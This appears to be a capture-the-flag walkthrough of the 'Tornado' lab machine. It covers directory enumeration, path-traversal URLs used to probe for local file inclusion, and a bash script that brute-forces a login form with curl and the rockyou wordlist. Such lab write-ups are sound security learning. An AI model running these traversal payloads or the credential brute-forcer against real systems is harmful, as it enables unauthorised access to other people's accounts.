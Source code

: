 |Machine Name|Difficulty|OS|
|-|-|-|
|Tornado|Medium|GNU/Linux|

## reconnaissance

![image](https://iili.io/HtSpCHx.png)

if you look at the picture above, there are 22/tcp and 80/tcp. our target scope includes both of these ports.

i attempted to brute force the directories on port 80 to learn more about which directories we should investigate. this time, i used gobuster because feroxbuster and dirsearch didn't detect anything at all, and the results were consistently the same – quite strange.

![image](https://iili.io/HtSpLbV.png)

i found the 'bluesky' directory. and i was trying the same approach as before to gather interesting information within the 'bluesky' directory.

![image](https://iili.io/HtSyYB9.png)

as suggested by [@laztname](https://potato.id/), i've been told to record all web activities in Burp Suite to capture interesting things that need further investigation. so, lets fire up then!

## 80/tcp testing

before that, since I found 'login.php' and 'signup.php' earlier, i went ahead and conducted testing on that web.

i registered with the credentials 'admina' and password 'admina'. then, I received a regular messagebox like this.

![image](https://iili.io/HtU9bSa.png)

after that, I returned to 'login.php' to log in as usual using the created credentials. then i received a message like this.

![image](https://iili.io/HtUHExV.png)

![image](https://iili.io/HtUd6Nf.png)

i explored all the tabs present in the image above, and when i reached `port.php`, i found a commented tag within its HTML source, as shown in the image below.

![image](https://iili.io/HtU2nRa.png)

however, I became suspicious when the webpage displayed text like this.

![image](https://iili.io/HtU2lOG.png)

there's LFI inside! but how?

i tried testing everything, and this is the payload i used.

```
http://192.168.100.16/bluesky/home/tornado/imp.txt 
http://192.168.100.16/home/tornado/imp.txt
http://192.168.100.16/bluesky/../../../../../../../home/tornado/imp.txt
```
i've tried everything, even read through the hackerone reports, but nothing led me to LFI. it's really strange. Then i gave up and looked at a writeup, and it turned out i just needed to add `/~tornado/imp.txt`. weird.

the contents of imp.txt are as shown in the image below.

![image](https://iili.io/HtUFwtj.png)

i've created a script to brute force the password for that username using the rockyou dictionary, but nothing seems to work. perhaps it's taking too long? im not sure.

```sh
#! /bin/env bash

users="./imp.txt"
passwords="/opt/seclists/Passwords/Leaked-Databases/rockyou.txt"
breakY=false

function main() {
  for user in $(cat $users); do
    for password in $(cat $passwords); do
      brute=$(curl -s -X POST http://192.168.100.16/bluesky/login.php -d "uname=$user&upass=$password&btn=Login" -o /dev/null -L -w %{s
ize_download})
      echo -ne "user: $user\npass: $password\n"
      if [[ "$brute" -ne "878" ]]; then
        echo -ne "[+] Found!\n[+] User: $user\n[+] Password: $password\n" >> found.txt
        break
      fi
    done
  done
  cat found.txt
}

main
```

i only found two passwords, prolly because it took too long.

![img](https://iili.io/HtUFyRn.png)
